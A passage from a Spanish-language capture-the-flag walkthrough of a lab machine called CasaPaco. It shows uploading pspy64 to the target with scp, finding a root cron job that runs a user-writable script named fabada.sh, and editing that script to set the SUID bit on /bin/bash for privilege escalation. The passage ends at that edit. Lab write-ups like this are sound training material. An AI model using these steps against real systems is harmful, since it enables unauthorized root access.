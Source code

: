 Una vez que lo descargues, cárgalo a la máquina víctima con **scp**.

Sal de tu sesión de **SSH** y ejecuta el siguiente comando:
```bash
scp pspy64 pacogerente@192.168.100.20:/home/pacogerente/
pacogerente@192.168.100.20's password: 
pspy64
```

Vuelve a entrar y ejecuta **pspy64**:
```bash
pacogerente@Thehackerslabs-CasaPaco:~$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
...
2025/08/06 23:41:10 CMD: UID=0     PID=1      | /sbin/init 
2025/08/06 23:42:01 CMD: UID=0     PID=4467   | /bin/sh -c /home/pacogerente/fabada.sh 
2025/08/06 23:42:01 CMD: UID=0     PID=4466   | /usr/sbin/CRON -f 
2025/08/06 23:42:01 CMD: UID=0     PID=4468   | /bin/sh -c /home/pacogerente/fabada.sh 
2025/08/06 23:42:01 CMD: UID=0     PID=4469   | /bin/bash /home/pacogerente/fabada.sh
2025/08/06 23:43:01 CMD: UID=0     PID=4471   | /bin/sh -c /home/pacogerente/fabada.sh 
2025/08/06 23:43:01 CMD: UID=0     PID=4470   | /usr/sbin/CRON -f 
2025/08/06 23:43:01 CMD: UID=0     PID=4472   | /bin/bash /home/pacogerente/fabada.sh 
2025/08/06 23:43:01 CMD: UID=0     PID=4473   | /bin/bash /home/pacogerente/fabada.sh 
```
Excelente, el script **fabada.sh** se ejecuta cada minuto y por el **Root**.

Y como podemos modificarlo, vamos a indicarle al script que le dé **permisos SUID** a la **Bash** para escalar privilegios.

Revisa los permisos de la **Bash**:
```bash
pacogerente@Thehackerslabs-CasaPaco:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 mar 29  2024 /bin/bash
```
Son normales, como deberían ser.

Modifiquemos el script para que le dé los **permisos SUID**:
```bash
nano fabada.sh
--------------
chmod u+s /bin/bash
```
Listo.
